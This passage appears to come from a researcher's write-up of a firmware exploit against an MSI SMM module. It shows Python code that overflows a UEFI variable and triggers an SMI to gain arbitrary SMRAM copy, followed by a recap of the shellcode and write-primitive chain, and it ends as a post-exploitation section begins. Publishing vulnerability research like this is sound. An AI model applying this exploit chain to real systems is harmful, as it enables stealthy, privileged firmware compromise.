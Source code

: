 
The last step is to once again overflow the global variable and this time, instead of setting `0x4AA356D8` to a byte, I set it to the physical address containing the `CopyMem()` struct:

<div class="example">
</div>
```
def copy_mem(self, source, dest, size):
    payload_address = 0x500 # any physical address with write access will do
    copy_payload = self.CopyMem()

    copy_payload.source = ctypes.c_void_p(source)
    copy_payload.dest = ctypes.c_void_p(dest)
    copy_payload.size = size

    self.cs.helper.write_phys_mem(
        payload_address, ctypes.sizeof(copy_payload), bytes(copy_payload)
    )

    primitive = payload_address.to_bytes(8, "little")

    data = self.gen_bad_var_data(write_primitive=primitive)
    self.set_wmi_var(data)

    self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```

The hard part is over! I can now copy data in and out of SMRAM without limitations.

One last recap of what's been done:

- "Access Denied" was zero'd out in the module's `.data` segment, allowing for a two byte (0x20 0x00 write primitive)
- Using the 0x20 0x00 primitive, the address of the first parameter passed to `fnWriteStatusToMemory` was updated - there now exists a way to write any byte(s) at an attacker controlled address to another address (albeit as a wide byte)
- Using the new primitive above, `fnWriteStatusToMemory` was modified so that `0x20 0x00` is no longer prepended to the first parameter when the function is called
- memcpy shellcode that contains no NULL bytes is written to 0x4AA32138
- The instruction which calls `fnWriteStatusToMemory` is updated to call 0x4AA32138
- A src/dest/size struct is written to a writable phyisical address
- SMI handler is called, overflowing the variable and writing the struct's address to the .data segment
- Handler execution flow is redirected to the memcpy shellcode, the memcpy struct is passed as RCX
- Shellcode executes and performs memcpy

##### Post Exploitation

I've defiled enough of MSIApServiceSmi's code - getting my own SMRAM pages would be great so that bigger payloads can be written to perform more complex work, without worrying about overwriting something important. I also prefer not to continue having to set a UEFI variable each time I want to do anything.


##### Meet Stub Loader
